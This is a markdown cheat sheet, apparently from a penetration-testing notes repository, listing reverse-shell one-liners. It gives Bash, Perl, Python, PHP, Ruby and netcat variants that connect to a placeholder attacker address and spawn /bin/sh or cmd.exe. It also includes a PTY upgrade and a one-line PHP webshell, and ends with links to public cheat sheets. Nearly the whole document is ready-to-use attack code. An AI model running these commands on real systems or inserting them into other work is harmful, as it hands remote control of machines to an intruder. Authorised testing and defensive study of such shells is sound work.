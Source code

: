 # Public Exploits - Reverse Shells

## Bash

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Perl

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Python Psuedo terminal

```
python -c "import pty;pty.spawn('/bin/bash')"
```

Use this on raw shells

## PHP

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```


```
<?php system($_GET['cmd']); ?>
```

Simple php webshell


## Ruby

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat

```
nc -e /bin/sh 10.0.0.1 1234
```

Reverse shell Linux

```
nc 10.10.0.1 1234 -e cmd.exe
```

Reverse shell Windows

## References:

[Reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) - Pentestmonkeys

[Netcat cheat sheet v1](http://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf) - Sans Penetration Testing

[Fixing a raw shell](https://nullsec.us/fixing-a-raw-shell/) - Nullsec
